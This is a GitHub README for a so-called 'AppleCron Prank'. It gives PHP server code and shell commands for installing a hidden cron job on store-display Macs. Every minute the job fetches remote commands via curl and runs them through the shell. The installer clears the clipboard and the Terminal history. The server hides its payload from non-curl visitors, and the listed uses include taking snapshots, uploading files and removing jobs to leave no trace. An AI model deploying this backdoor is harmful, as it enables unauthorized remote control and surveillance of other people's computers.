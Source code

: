 #AppleCron Prank

##Original idea

[Antonio Roberts / @hellocatfood](http://www.hellocatfood.com/) suggested an AppleStore prank in [this tweet](https://twitter.com/hellocatfood/status/695605824815788033)


##The idea
Going further, I found out that one can remote control machines using cron jobs, bash scripts and some php pages.

The idea is to create a cron job which will, at a certain interval, retrieve the commands to be executed .

Some examples of what can be achieved:
- Reboot
- Shutdown
- Close Safari or any other app
- Open a web page in the default browser.
- Take a snapshot.
- Upload files
- Add new cron jobs
- Update a cron job
- Remove a cron job
- Remove all cron jobs (in case you want to leave no trace)

##Overview

The first part consist in adding a cron job to a machine.
Then this job will run every x minutes and retrieve the command to be executed.
You can later update the script remotely through a web page and take control/execute scripts on the machine.
The cron job can later be removed remotely, leaving no trace.

Note : I assume that the the index.php is hosted at the root of your domain.
If not the case, change yourdomain.ext for yourdomain.ext/folder in the examples and in the code

###In details :

I'm using a multipurpose php page which will serve the scripts.
This page does three things :

1- Send fake information when not accessed via curl
2- Deliver the installation script
3- Deliver other scripts stored in a script.txt file

```
<?php
header("Content-type: text/plain");

// if this page is accessed with anything else than curl, we stop here
if (stripos($_SERVER['HTTP_USER_AGENT'], "curl") === false) {
  exit("Nothing to see here");
} 

// Installation command
if (isset($_GET["i"])) {
       print '(crontab -l; echo "* * * * * curl -sL meth.fr | sh") | crontab -;echo " " | pbcopy;history -c;reset' . PHP_EOL;
}
// Prank commands
else {
    $file = fopen("script.txt", "r") or die("open http://retailpoisoning.tumblr.com/");
    echo fread($file,filesize("script.txt"));
}
?>
```

The installation script is returned when accessing the index.php page via curl, with the ?i argument.
For instance, if the index.php is at the root level of your domain :
yourdomain.ext?i

The command script is returned when accessing the page via curl without any argument :
For instance, if the index.php is at the root level of your domain :
yourdomain.ext

Any request sent from anything else than curl will be filtered out.

##How those scripts get executed on the machine
To achieve that, we use curl and pipe it to either the clipboard or bash

Typing this command ...
```
 curl -sL yourdomain.ext?i | pbcopy
 ```
... will retrieve the following installation script and copy it to the clipboard: 
```
 (crontab -l ; echo " * * * * * curl -s -L yourdomain.ext | sh") | crontab  -; echo "" | pbcopy; history -c; reset
```

Pasting this command will create a cron job executed every minute. The rest of the command deletes the content of the clipboard, clears the Terminal history and resets it.

This cron job will get other scripts (we access the page without the ?i argument) every minute and pipe it to bash for execution.

Starting from here you can do almost anything that doesn't require administrator right (when sudo is not needed), including bash commands, AppleScript commands, etc etc.

The script.txt file can be updated on the fly using the x.php page.
This means once your cron job is running you can change the script (and thus the commands run every minute) from your smartphone.

To avoid this script being indexed or accessible to others, you can set a pass key that you pass as an argument : ie: http://yourdomain.ext/x.php?xyz=abc

The x.php page is just an interface which sends updated commands to the update.php page, in charge of updating the script.txt file :

There are some predefined command but there is also a text field to enter any other command.
Note : you can also update the x.php page if you want to customize it with your own commands and pass key


##How to proceed

First, you need access to the machine to be able to add this cron job.
So head to your local retailler, pick a MacOSX machine and do this :

- Open a Terminal window
- Type this command to copy the install command to the clipboard
```
curl -sL yourdomain.ext?i | pbcopy
```
- Then CTRL+V to execute it
- Exit Terminal
- Move away then use your smartphone (or do it offsite) to launch commands through the x.php page.

Note : be carefull with the command's syntax because when cron cannot execute a script, it will be logged in /var/mail/%username% and thus will leave a trace.


##More about cron jobs :

Remove all cron jobs
```
crontab -r
```

Append a new job to the existing ones
```
(crontab -l 2>/dev/null; echo " */2 * * * * open fortune.com/2016/01/19/apple-child-labor/") | crontab -
```

Replace cron jobs with a new one
```
(crontab -l | echo " * * * * * open fortune.com/2016/01/19/apple-child-labor/") | crontab -
```

Replace a specific job (ie: the one containing "fortune")
```
(crontab -l 2>/dev/null;  echo "*/4 * * * * http://techcrunch.com/2016/01/19/apple-microsoft-samsung-and-other-tech-firms-implicated-in-child-labor-report/ | grep -v 'fortune.com' | crontab -") | crontab -
```

It may be worth having a look at AppleScripting for more fun.


##Further ideas :

This can be used:
- regularly push info from your machine to a server.
- track a stolen Mac.
- prank your friends/colleagues


